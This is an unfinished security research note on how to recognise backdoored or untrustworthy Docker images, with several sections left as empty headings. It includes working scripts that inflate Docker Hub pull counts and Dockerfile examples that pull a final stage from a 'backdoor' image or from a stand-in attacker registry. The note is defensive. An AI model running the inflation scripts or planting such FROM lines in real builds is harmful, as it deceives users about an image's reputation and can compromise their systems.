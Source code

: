# (WIP) Research on docker backdooring
Pantelis Roditis (09/07/2020)

For the past x years I've been developing docker containers that can be used in the right `wrong` way to emulate fully functional linux systemsm which is in stark contrast to how docker was meant to be used but anyways.

During this time I have come across a load of different types of suspicious docker containers from both docker hub and github projects.

Just like any other process of cybersecurity apply common logic when you are about to blindly trust an docker image, simply because it can be found on docker hub.

This following document includes research on what you shouldn't trust, the reason and hopefully an example of how it can be abused. This list is in no means complete, it is a documentation of what i look for when inspecting docker images from untrusted sources.


## Docker Hub stats
First and foremost don't trust stats provided by docker hub. The stars and pull requests can be easily manipulated to a huge degree.

If the image you're looking at has suspiciously high numbers of pulls and stars for its perceived reputation then something might be fishy.

In order to manipulate the pull numbers a malicious user could create an extremely small image, kilobytes in size and push it and then make pull requests to increase the number of pull requests. Some of the ways a bad actor can do that

**docker pull**

```sh
name="repo/image"
for i in $(seq 1 1000);do
  docker pull "${name}"
  docker rmi -f "${name}"
done
```


**ab (ApacheBenchmark)**
```sh
name="repo/image"
token=$( curl -s "https://auth.docker.io/token?service=registry.docker.io&scope=repository:${name}:pull" | jq -r .token )
ab -n 50 -c 10 -H "Authorization: Bearer $token" "https://registry.hub.docker.com/v2/${name}/manifests/latest"
```

**curl**
```sh
for i in $(seq 1 50);do
  token=$( curl -s "https://auth.docker.io/token?service=registry.docker.io&scope=repository:${name}:pull" | jq -r .token )
  curl -s -H "Authorization: Bearer $token" "https://registry.hub.docker.com/v2/${name}/manifests/latest" >/dev/null
done
```

## The FROM statement
Usually one of the top most statements of a `Dockerfile`.  It is used to instruct docker to use another image as a base. Any following commands within the `Dockerfile` will be executed as if they were run from within a container of the imported image.

Usual tricks that can be found in this section include but not limited to the following


### Multi-stage builds

A `Dockerfile` can have more than one `FROM` statements. Import from a legitimate image, perform some tasks to confuse user and import a malicious image last to be executed.

```Dockerfile
FROM debian
RUN apt-get install curl bash
...
FROM backdoor
```

Although the image started with `FROM debian` it will end up running whatever `FROM backdoor` image has.

### Image with registry part
One of the things that `docker` will do for you is to parse as URL the image name. This means that the following statement is valid
```sh
FROM badregistry.attacker.io:443/repo/backdoor
```

Upon building this image docker will connect to `badregistry.attacker.io:443` and attempt to fetch the image `repo/backdoor`


### Unicode `FROM` image

Pay close attention at the FROM image names as Unicode characters can be used to make it look like it came from a legit repository.

* [IDN homograph attack](https://en.wikipedia.org/wiki/IDN_homograph_attack)
* [Unicode Bidirectional Text Spoofing](http://unicode.org/reports/tr36/tr36-8.html#Bidirectional_Text_Spoofing)


## The RUN statement

## The COPY/ADD statement

## The VOLUME statement

## The CMD statement

## The ENTRYPOINT statement

## The entrypoint.sh script

## Package manager repos

## The docker run/create CLI params
Pay close attention at the docker parameters required to run the container. The parameters that usually make me suspicious are:
* `--privileged`
* `--cap_add`
* ``

Keep in mind that the existence of these parameters do not mean that an image is malicious. Many containers require these options to operate properly, apply common logic when you see them
## Refs
* https://www.fortinet.com/blog/threat-research/yet-another-crypto-mining-botnet
* https://kromtech.com/blog/security-center/cryptojacking-invades-cloud-how-modern-containerization-trend-is-exploited-by-attackers
